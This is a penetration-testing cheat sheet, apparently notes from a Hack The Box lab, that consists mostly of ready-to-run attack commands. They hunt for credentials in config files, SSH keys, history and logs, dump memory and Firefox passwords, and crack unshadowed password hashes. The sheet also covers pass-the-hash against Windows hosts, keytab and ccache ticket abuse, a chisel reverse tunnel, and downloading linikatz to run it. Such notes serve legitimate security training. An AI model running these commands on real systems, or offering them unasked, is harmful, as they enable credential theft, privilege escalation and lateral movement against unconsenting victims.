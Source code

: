 ## Credential Hunting

### Configuration Files
```bash
## Search for config files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

## Searching for credentials in config files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### Databases

```bash
## Search for database files
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Notes

```bash
## Search for notes
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts

```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### Cronjobs

```bash
cat /etc/crontab 
ls -la /etc/cron.*/
```

### SSH Keys

```bash
## Search for ssh private keys
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

## Search for ssh public keys
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### History 

| **Log File**   | **Description**   |
| --------------|-------------------|
|/var/log/messages|	Generic system activity logs.|
|/var/log/syslog|	Generic system activity logs.|
|/var/log/auth.log|	(Debian) All authentication related logs.|
|/var/log/secure|	(RedHat/CentOS) All authentication related logs.|
|/var/log/boot.log|	Booting information.|
|/var/log/dmesg|	Hardware and drivers related information and logs.|
|/var/log/kern.log|	Kernel related warnings, errors and logs.|
|/var/log/faillog|	Failed login attempts.|
|/var/log/cron|	Information related to cron jobs.|
|/var/log/mail.log|	All mail server related logs.|
|/var/log/httpd|	All Apache related logs.|
|/var/log/mysqld.log|	All MySQL server related logs.|

```bash
## Bash history
tail -n5 /home/*/.bash*

## Logs
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

### Memory & Cache

```bash
## Memory dumping
sudo python3 mimipenguin.py 
sudo python2.7 laZagne.py all

## Firefox stored credentials
ls -l .mozilla/firefox/ | grep default 
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
python3.9 firefox_decrypt.py
```

## Password Files

### Passwd

```bash
## Rare scenario - passwd is editable
root::0:0:root:/root:/bin/bash  # Allow for straight root access

## Un shadowing password file
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Opasswd

```bash
## Location of old password file
sudo cat /etc/security/opasswd
```

## Pass the Hash

### Impacket PsExec

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

### CrackMapExec

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

## Execute command option
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### Evil-WinRM

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### RDP 

```powershell
## Enable restricted admin mode to allow pth
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

## Pass the hash using rdp
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

### Limitations

_UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well._

_If the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account._

## Pass the Ticket

Linux machines store Kerberos tickets as ccache files in the /tmp directory. By default, the location of the Kerberos ticket is stored in the environment variable KRB5CCNAME.

Another everyday use of Kerberos in Linux is with keytab files. A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password).

### Identifying Linux and AD Integration

```bash
## Use realm tool to check for domain environment
realm list

## Alternatively if realm is not available, look for services sssd or winbind
ps -ef | grep -i "winbind\|sssd"
```

### Finding Kerberos Ticket

```bash
## Find Keytab file
find / -name *keytab* -ls 2>/dev/null

## Alternatively, Keytab can be located in Cronjobs
crontab -l

## Find ccache file
env | grep -i krb5

## Search for ccache file in default directory
ls -la /tmp
```

### Abusing KeyTab

```bash
## List keytab information
klist -k -t 

## Impersonate user with keytab
klist 
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab

## Connect to target machine i.e.
smbclient //dc01/carlos -k -c ls

## Abuse via keytab extract
## https://github.com/sosdave/KeyTabExtract
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

### Abusing Ccache

To abuse a ccache file, all we need is read privileges on the file. These files, located in /tmp, can only be read by the user who created them, but if we gain root access, we could use them.

```bash
## Import ccache file to current session
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```

### Linux Attack Tools with Kerberos

```bash
## Modify our proxychains configuration file to use socks5 and port 1080
## Download chisel on Attack Host
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 

## Set KRB5CCNAME Environment Variable
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133

## Use Impacket with proxychains and Kerberos Auth
proxychains impacket-wmiexec dc01 -k

## Use winrm with Kerberos
sudo apt-get install krb5-user -y
proxychains evil-winrm -i dc01 -r inlanefreight.htb

## Converting ccache file for use in Windows or kirbi file for use in Linux
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

## Alternatively, Linikatz
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh
```
